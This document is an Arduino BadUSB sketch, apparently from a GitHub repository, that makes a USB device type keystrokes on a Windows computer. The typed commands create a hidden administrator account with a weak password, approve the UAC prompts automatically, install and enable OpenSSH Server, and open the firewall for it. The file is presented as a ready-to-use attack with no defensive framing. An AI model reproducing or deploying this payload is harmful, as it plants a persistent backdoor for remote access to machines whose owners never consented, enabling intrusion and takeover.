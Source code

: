 # BadUSB---Admin-SSH
BadUSB - Admin &amp; SSH

#include<Keyboard.h>
#define KEY_DELAY 50 //delay between keystrokes for slow computers

//a command line to execute
const char command0 [] = "powershell -Command Start-Process cmd -Verb RunAs"; // Launches cmd as admin
const char command1 [] = "net user admin password /add"; // Creates a new user by the name "admin" with password "password"
const char command2 [] = "net localgroup administrators admin /add"; // Adds the new user "admin" to the administrators group
const char command3 [] = "powershell Start-Process powershell -Verb runAs"; // Launches PowerShell as admin
const char command4 [] = "Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0"; // Installs OpenSSH server
const char command5 [] = "Start-Service sshd"; // Starts the SSH Server
const char command6 [] = "Set-Service -Name sshd -StartupType 'Automatic'"; // Sets the SSH service to start automatically
const char command7 [] = "Enable-NetFirewallRule -Name *OpenSSH-Server*"; // Creates a Firewall rule for SSH
const char command8 [] = "taskkill /IM cmd.exe"; // Closes CMD
const char command9 [] = "exit"; // Closes PowerShell


void setup() {
  Keyboard.begin();
  // I recommend that you leave a short delay before start while prototyping.
  // It will will give you some time to reprogram a board before it starts typing.
  delay(10000);
}

void loop() {
  //Pressing Win+r shortcut
  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  delay(KEY_DELAY);
  Keyboard.releaseAll();
  delay(KEY_DELAY*5); //Inputting cmd command
  Keyboard.println("cmd");
  delay(KEY_DELAY*5); //A delay to ensure that cmd window has been opened
  delay(2000);
  Keyboard.println(command0); // Launches cmd as admin
  delay(5000);
  Keyboard.press(0x82);
  Keyboard.press('Y'); //Presses Left Alt + Y to select Yes at the pop-up prompt
  delay(KEY_DELAY);
  Keyboard.releaseAll();
  delay(3000);
  Keyboard.println(command1); // Creates a new user by the name "admin" with password "password"
  delay(2000);
  Keyboard.println(command2); // Adds the new user "admin" to the administrators group
  delay(2000);
  Keyboard.println(command3); // Launches PowerShell as admin
  delay(3000);
  Keyboard.press(0x82);
  Keyboard.press('Y'); //Presses Left Alt + Y to select Yes at the pop-up prompt
  delay(KEY_DELAY);
  Keyboard.releaseAll();
  delay(3000);
  Keyboard.println(command4); // Installs OpenSSH server
  delay(15000);
  Keyboard.println(command5); // Starts the SSH Server
  delay(2000);
  Keyboard.println(command6); // Sets the SSH service to start automatically
  delay(2000);
  Keyboard.println(command7); // Creates a Firewall rule for SSH
  delay(2000);
  Keyboard.println(command8); // Closes CMD
  delay(2000);
  Keyboard.println(command9); // Closes PowerShell
  delay(1000);
}
